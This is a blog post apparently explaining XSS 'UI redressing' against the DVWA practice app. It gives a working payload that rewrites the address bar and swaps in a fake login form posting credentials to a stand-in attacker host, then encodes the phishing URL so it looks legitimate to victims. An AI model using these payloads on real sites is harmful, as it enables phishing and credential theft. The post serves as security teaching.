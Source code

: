 ```yaml
---
title: 'xss_ui_redressing'
date: 2018-11-28T15:14:39+10:00
---
```


---

### Moving Beyond alert('xss')

Most people know all about making an alert box pop or getting a cookie sent to an external site with document.cookie. It makes since, it is easy to demo and for the most part makes for a great proof of concept.

Unfortunately these sometimes fail to showcase some of the more potentially devious outcomes from having a site that is vulnerable to XSS.

I recently came across a form of XSS that is called ui redressing. As I researched and learned more about it I came to see how malicious a XSS attack could be.

---

### What is UI Redressing?

Redressing leverages features of html5 to call the history.replaceState or history.pushState functions to the browser. These functions allow a script to re-write what is presented in the URL bar after a page has loaded.

A script, rewrites the url presented in the address bar after loading the page. I'll let that sink in for a minute. I first came across this method randomly on [swisskeyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#ui-redressing) xss injection GitHub page.

From the example on the swisskyrepo's page history.replaceState() is leveraged to replace the page with a /login.

*Note: history.pushState() could also be used.*

When the script is ran the url bar will be re-written from:

```
http://dvwa/vulnerabilities/xss_r/?name=yogi#
```

to something a bit more devious:

```
http://dvwa/login
```

So what? Whats the big deal, the url is re-written but the page is still the page it should be. Right? Maybe, unless the page gets changed with the document.body.innerHTML property....

---

### In Practice

Up until this point we have seen how UI redressing can be used to change the address bar. Let's leverage that and also re-write the html page to something a little bit more fitting of a login url. Using the script below we can change the URL to http://dvwa/login and also create a new html page for it with document.body.innerHTML.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><center><h2>Please login to acces
s secure portion of our site.</h2><form action='http://SomeMaliciousListener'>Usernam
e: <input type='text'>Password: <input type='password'><input value='submit' type='su
bmit'></form>"
</script>
```

That's it. We can send a Phishing email with a url that is vulnerable to a reflected XSS and include that code as our payload.

```html
http://dvwa/vulnerabilities/xss_r/?name=<script>history.replaceState(null, null, '../../../login');document.body.innerHTML = "</br></br></br></br></br><center><h2>Please login to access secure portion of our site.</h2><form action='http://SomeMaliciousListener'>Username: <input type='text'>Password: <input type='password'><input value='submit' type='submit'></form>"</script>
```

Even though the page that is expected to load looks similar to this:

![UI Redressing 1](images/xssuiredressing1.png "img-fluid")


When the victim clicks the link the login page below will load:

![UI Redressing 2](images/xssuiredressing2.png "img-fluid")

What about site certificates? It is not a problem. The victim is still on the real site. They are just at a destination that does not really exist except for them.

Wont they notice something weird about the url? Perhaps, I do not recommend sending a url that is full of html and javascript code. URL encoding it to something like this is much more favorable.

```
http://dvwa/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%68%69%73%74%6f%72%79%2e%72%65%70%6c%61%63%65%53%74%61%74%65%28%6e%75%6c%6c%2c%20%6e%75%6c%6c%2c%20%27%2e%2e%2f%2e%2e%2f%2e%2e%2f%6c%6f%67%69%6e%27%29%3b%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%69%6e%6e%65%72%48%54%4d%4c%20%3d%20%22%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%2f%62%72%3e%3c%63%65%6e%74%65%72%3e%3c%68%32%3e%50%6c%65%61%73%65%20%6c%6f%67%69%6e%20%74%6f%20%61%63%63%65%73%73%20%73%65%63%75%72%65%20%70%6f%72%74%69%6f%6e%20%6f%66%20%6f%75%72%20%73%69%74%65%2e%3c%2f%68%32%3e%3c%66%6f%72%6d%20%61%63%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%53%6f%6d%65%4d%61%6c%69%63%69%6f%75%73%4c%69%73%74%65%6e%65%72%27%3e%55%73%65%72%6e%61%6d%65%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%27%74%65%78%74%27%3e%50%61%73%73%77%6f%72%64%3a%20%3c%69%6e%70%75%74%20%74%79%70%65%3d%27%70%61%73%73%77%6f%72%64%27%3e%3c%69%6e%70%75%74%20%76%61%6c%75%65%3d%27%73%75%62%6d%69%74%27%20%74%79%70%65%3d%27%73%75%62%6d%69%74%27%3e%3c%2f%66%6f%72%6d%3e%22%3c%2f%73%63%72%69%70%74%3e
```

This url looks much more 'official'. I imagine most people would see this url and think: *"oh, just your typical super long url, much be official. Let me check my training. Yup goes to the domain I expect, yup certificate is valid, must be a real site. Safe to login."* I think that the long url lends itself towards being perceived as more legitimate.